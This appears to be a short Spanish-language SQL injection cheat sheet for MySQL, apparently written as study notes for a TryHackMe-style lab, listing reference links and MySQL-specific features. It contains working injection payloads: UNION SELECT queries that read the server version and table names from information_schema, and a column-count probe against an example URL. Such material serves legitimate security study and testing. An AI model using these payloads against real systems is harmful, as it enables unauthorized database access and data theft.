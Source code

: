 # CheatSheet: SQLi         

## Fecha: 30/01/2025

## Objetivo
Establecer la teoria necearia para poder identificar en cada de base de datos los distnintos vectores de ataque.

### Recursos

* [payloads](https://github.com/payloadbox/sql-injection-payload-list)

* [cheatsheet 1]( https://portswigger.net/web-security/sql-injection/cheat-sheet ) 

* [cheatsheet 2](https://www.geeksforgeeks.org/ethical-hacking/sql-injection-cheat-sheet/)

## MySql

### **1. Diferencias clave en MySQL respecto a MSSQL**

-   **No siempre soporta stacked queries (`;`)**, a menos que tengas múltiples consultas habilitadas.
-   **Soporta `UNION SELECT`**, pero debe coincidir el número de columnas.
-   **Tiene funciones específicas útiles en SQLi**, como `LOAD_FILE()`, `INTO OUTFILE`, `INFORMATION_SCHEMA` y `BENCHMARK()`.

### **2. Enumeración de Base de Datos en MySQL**

#### **a) Error-Based SQLi**

Forzamos un error para extraer información:

```
' UNION SELECT 1,2,3,@@version; --  
```

Si falla, intentamos generando un error explícito:
```
' UNION SELECT 1,2,3,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1); --  
```

Si la aplicación muestra mensajes de error, podemos extraer datos directamente.

Parametros inyectables:

url de ejemplo: https://website.thm/article?id=<parametro numerico inyectable>

```bash
# Numero de columnas
<parametro numerico inyectable> UNION SELECT 1,2,3
```
---
